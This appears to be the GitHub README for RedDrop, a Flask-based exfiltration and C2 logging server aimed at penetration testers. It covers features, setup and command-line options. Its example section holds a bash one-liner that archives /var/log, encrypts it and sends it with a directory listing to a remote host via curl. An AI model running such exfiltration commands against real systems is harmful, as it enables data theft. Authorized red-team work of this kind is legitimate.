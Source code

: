 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
[Check out the accompanying MaverisLabs Blog Post Here!](https://medium.com/maverislabs/data-exfiltration-using-reddrop-13bcbad7acb0?source=friends_link&sk=34320be3746773a82d065d03ea05111b)

RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired


## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Utilize the [Authorization Rules](docs/AuthorizationRules.md) feature of RedDrop to drop requests which do not meet your criteria. 
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run --rm -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" --name reddrop cyberbutler/reddrop -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default:
                        0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML
                        (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can
                        be used more than once to define multiple
                        process_list functions. Use this flag in
                        the order in which you wish to process
                        received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on
                        detected data. This option is enabled by
                        default, but should be disabled (--no-
                        auto-process) when you receive output you
                        don't expect. Such as in the case of
                        Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the
                        process with the `-p` flag. (default:
                        True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the
                        server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt.
                        (default: EncryptMe)
  -r AUTHORIZATION_RULES, --authorization_rules AUTHORIZATION_RULES
                        Specify an Authorization Rule to deny
                        requests which do not match the provided
                        Key and Regex value pair. Specified as
                        <Key>=<Regex>. (default: None)
  -t TAGS, --tag TAGS   Tag data received during this session in the logs as well as the directory files are uploaded to. Example:
                        -t log4j -t acme.org (default: None)
  --tls-keyfile GUNICORN.KEYFILE
                        Enables TLS Support. (Production Only) The path to a TLS key file (default: None)
  --tls-certfile GUNICORN.CERTFILE
                        Enables TLS Support. (Production Only) The path to a TLS cert file (default: None)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
